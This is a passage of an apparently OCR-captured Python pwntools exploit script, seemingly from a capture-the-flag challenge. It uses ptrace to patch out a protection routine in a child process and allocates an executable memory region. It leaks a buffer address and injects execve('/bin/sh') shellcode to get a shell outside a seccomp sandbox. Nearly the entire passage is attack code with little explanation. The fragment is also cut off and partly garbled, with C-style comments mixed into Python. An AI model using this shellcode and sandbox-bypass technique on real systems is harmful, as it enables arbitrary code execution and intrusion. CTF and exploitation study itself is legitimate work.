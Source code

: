 ```python

/* patch program to remove call to protectprogram() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x401aa9
  mov r10,0x9090909090000000
  mov eax,101
  syscall

// ptrace(PTRACE_DETACH,child,0,0
  mov edi,0x11
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall


loopit:
 jmp loopit

format:
  .ascii "result = %%llx"
  .byte 10

''' % pid)

# create a RWX mem zone
sla('Exit\n','1')
sla('be?\n', '140000')
sla('y?\n', '7')
sla('de?\n', shellc)
# leak buffer address
buffer = int(rcu('at ', '\n'),16)
logleak('buffer at', buffer)

sla('Exit\n','3')
sla('code?\n', hex(buffer))

shellc2 = asm('''
    xor esi, esi
    push rsi
    mov rbx, 0x68732f2f6e69622f
    push rbx
    push rsp
    pop rdi
    imul esi
    mov al, 0x3b
    syscall
  ''')

# now the client is in menu loop
# but without call to seccomp before execute
sla('Exit\n','1')
sla('be?\n', '4096')
sla('y?\n', '7')
sla('de?\n', shellc2)

# send execve shellcode to client
shellc2_addr = int(rcu('at ', '\n'),16)
logleak('shellcode at', shellc2_addr)

```